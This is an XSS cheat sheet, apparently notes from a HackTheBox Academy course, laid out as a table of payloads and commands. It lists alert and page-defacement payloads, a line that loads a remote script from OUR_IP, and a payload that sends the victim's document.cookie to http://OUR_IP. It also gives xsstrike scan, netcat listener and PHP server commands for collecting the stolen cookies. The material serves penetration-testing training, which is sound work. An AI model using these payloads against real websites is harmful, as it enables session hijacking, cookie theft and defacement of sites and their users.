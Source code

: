 #Cheatsheet #XSS
## Commands

| Code                                                                                          | Description                       |
| --------------------------------------------------------------------------------------------- | --------------------------------- |
| **XSS Payloads**                                                                              |                                   |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |
| **Commands**                                                                                  |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |
| `sudo php -S 0.0.0.0:80`                                                                      | Start `PHP` server                |